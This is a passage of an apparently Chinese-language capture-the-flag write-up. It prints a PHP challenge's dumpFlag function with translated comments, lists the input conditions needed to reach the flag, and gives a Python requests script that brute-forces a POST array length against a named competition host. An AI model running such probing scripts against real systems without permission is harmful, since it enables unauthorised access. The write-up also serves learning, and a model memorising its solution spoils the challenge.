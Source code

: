 ```php
    // 如果$tip的值等于 "我要玩原神"，则调用dumpFlag函数
    dumpFlag();
}

// 定义名为dumpFlag的函数
function dumpFlag() {
    // 检查通过POST方法提交的名为'm'的数据是否未设置，或者其元素个数不等于2
    if (!isset($_POST['m']) || sizeof($_POST['m'])!= 2) {
        // 如果满足上述条件之一，输出错误信息并终止函数执行，表示提交的数据不符合要求
        die("可恶的QQ人！😡😡😡");
    }

    // 获取通过POST方法提交的名为'm'的数据中的第一个元素，赋值给变量$a
    $a = $_POST['m'][0];
    // 获取通过POST方法提交的名为'm'的数据中的第二个元素，赋值给变量$b
    $b = $_POST['m'][1];

    // 检查变量$a是否为空，或者变量$b是否为空，或者变量$a的值不等于 "100%"，或者变量$b的值不等于 "love100%" 拼接上变量$a的MD5值
    if (empty($a) || empty($b) || $a!= "100%" || $b!= "love100%". md5($a)) {
        // 如果满足上述条件之一，输出错误信息并终止函数执行，表示提交的数据不符合特定格式要求
        die("某站崩了？肯定是某忽悠干的！😡😡😡");
    }

    // 再次引入flag.php文件，这里可能是为了确保能获取到最新的flag相关信息（虽然前面已经引入过，但在函数内部再次引入可能有其特定需求）
    include 'flag.php';

    // 创建一个空数组$flag
    $flag[] = array();

    // 通过循环，根据变量$array的元素个数进行迭代
    for ($ii = 0; $ii < sizeof($array); $ii++) {
        // 对$array中的每个元素，先获取其ASCII码值，然后与循环变量$ii进行异或运算，最后对结果进行MD5加密，并将加密结果存入$flag数组对应位置
        $flag[$ii] = md5(ord($array[$ii]) ^ $ii);
    }

    // 将$flag数组转换为JSON格式的字符串并输出到页面上
    echo json_encode($flag);
}
```

总结：

+ $len （$_POST）的长度等于 $array的长度
+ $tip（$_GET）= '我要玩原神'
+ $m（$_POST）长度为 2，且第一个元素等于字符串‘100%’，第二个元素等于字符串‘love100%’拼接‘100%’的 md5 值

首先，第一步要判断输入长度合适的 len 数组，使用脚本爆破

```python
import requests

url = 'http://gz.imxbt.cn:20279/'
for i in range(1, 100):
    payload = {f'len[{j}]': '0' for j in range(i)}
    resp = requests.post(url, data=payload)
    last_line = resp.text.splitlines()[-1]
    print(last_line)

    if '我不管，我要玩原神！😭😭😭' in last_line:
        print(f'长度是{i}\n')
        print('&'.join(f'len[{m}]=1' for m in range(i)))
        break
```
